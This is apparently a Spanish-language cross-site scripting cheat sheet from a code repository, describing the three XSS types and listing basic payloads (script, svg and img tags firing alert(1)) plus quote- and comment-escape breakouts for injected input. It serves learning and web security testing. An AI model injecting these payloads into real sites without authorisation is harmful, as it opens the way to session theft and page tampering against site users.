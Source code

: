 # XSS Cheat Sheet

Los ataques Cross-Site Scripting (XSS) son un tipo de inyección en el que se inyectan scripts maliciosos en los sitios web. Esta vulnerabilidad puede aparecer en todas las funciones de la aplicación. Si desea encontrar XSS basado en Dom, puede encontrarlo leyendo el código fuente de JavaScript 

## Hay 3 tipos de ataques XSS

- Reflected XSS

     Ataque donde se ejecuta el script malicioso desde otro sitio web a través del navegador web 
     
- Stored XSS

     Los ataques almacenados son aquellos en los que el script inyectado se almacena de forma permanente en los servidores de destino     
     
- DOM-Based XSS

     Un tipo de XSS que tiene cargas útiles que se encuentran en el DOM en lugar de dentro del código HTML    
     
          
# Explotando 

1 - Carga útil básica 

```html    
<script>alert(1)</script>
<svg/onload=alert(1)>
<img src=x onerror=alert(1)>
```      

2 - Agregue ' o " para escapar de la carga útil del valor de una etiqueta HTML

```html
"><script>alert(1)</script>
'><script>alert(1)</script> 
```
    
- Ejemplo de código fuente 

```html
<input id="keyword" type="text" name="q" value="REFLECTED_HERE">
```

- Después de ingresar la carga útil

```html
<input id="keyword" type="text" name="q" value=""><script>alert(1)</script>
```

3 - Agregue --> para escapar de la carga útil si la entrada aterriza en comentarios HTML

```html
--><script>alert(1)</script>
```
